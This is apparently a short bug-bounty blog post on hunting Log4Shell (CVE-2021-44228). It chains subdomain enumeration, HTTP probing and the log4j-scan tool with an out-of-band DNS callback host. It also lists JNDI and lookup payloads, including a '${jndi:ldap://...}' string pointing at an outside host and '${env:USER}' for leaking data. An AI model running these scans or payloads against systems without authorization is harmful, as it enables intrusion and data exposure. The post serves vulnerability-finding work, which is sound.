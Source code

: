 ```yaml
---
title: "Finding Log4j (The skiddie way)"
date: 2021-12-18T17:17:04+05:30
tags:
  - bugbounty
  - shorts
  - log4j
  - one-liner
---
```



## About
So the past week the internet was on fire, log4j CVE dropped and it dropped hard. It was like as if people were running for their lives, 
putting out fires. And it got even worse after the infosec community quickly started hunting for this vulnerability. 
Today let’s take a dig into vulnerability  and learn how to find it (The skiddie way).

## What is Log4j CVE-2021-44228
I guess you already know about it, if not then here are some great resources:
* [NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
* [Lunasec article](https://www.lunasec.io/docs/blog/log4j-zero-day/)
* [John Hammond's video explaintaion](https://www.youtube.com/watch?v=7qoPDq41xhQ)

## How to quickly find it in your organization/anywhere
We will need a few tools for this,
* [subfinder](https://github.com/projectdiscovery/subfinder)
* [assetfinder](https://github.com/tomnomnom/assetfinder)
* [httpx](https://github.com/projectdiscovery/httpx)
* [log4j-scan](https://github.com/fullhunt/log4j-scan)
* Burp Collaborator or any custom callback dns host (ex: dnslog.cn)

First we need to find all subdomains for a particular scope, let's say "example.com", here's a quick one-liner to do that

```shell
{ subfinder -silent -d <domain> ; assetfinder -subs-only <domain> } | sort -u | tee subs.txt
```



This will create a subs.txt file containing subdomains for the given domain (crowdsourced).

![Subdomains](/images/find-log4j/1.png)



Now we have to probe these subdomains to find which of them have a web application hosted 

```shell
cat subs.txt | httpx -silent -title -status-code -ports 80,443,5000,8080,8000 | awk '{print $1}' | tee endpoints.txt
```

The above one-liner will get us the URLs for all the hosted web applications, now all we have to do it pass it to the log4j-scan tool and it will
do all the magic by itself.


```shell
python3 log4j-scan.py -l endpoints.txt --custom-dns-callback-host <Burp collab url> --run-all-tests
```

After running this, if we get a dns callback on our burp collaborator (or other dns service that you are using), then it proves the particular web application might be vulnerable to log4j CVE-2021-44228.

It should look something like this:

![DNS callback](/images/find-log4j/2.png)

You can use the following payloads to fetch more information usign this vuln:

* ${hostName}
* ${whoami}
* ${java:os}
* ${env:USER}


## What does this Log4j-Scan tool do ?

Well to this tool inserts the most used jndi payloads (ex: {jndi:ldap://mydogsbutt.com/a}) in multiple headers and params of the request. If the web application uses log4j to log any of these parameters or headers, then it might trigger the payload. An example of request sent by log4j-scan is shown below

![Burp Proxy](/images/find-log4j/3.png)


## Conclusion
So this was a quick walkthrough of the skiddie way to find log4j vuln. If you're lucky and score a bounty, feel free to [buy me a beer](https://buymeacoffee.com/ev1lm0rty) ;)
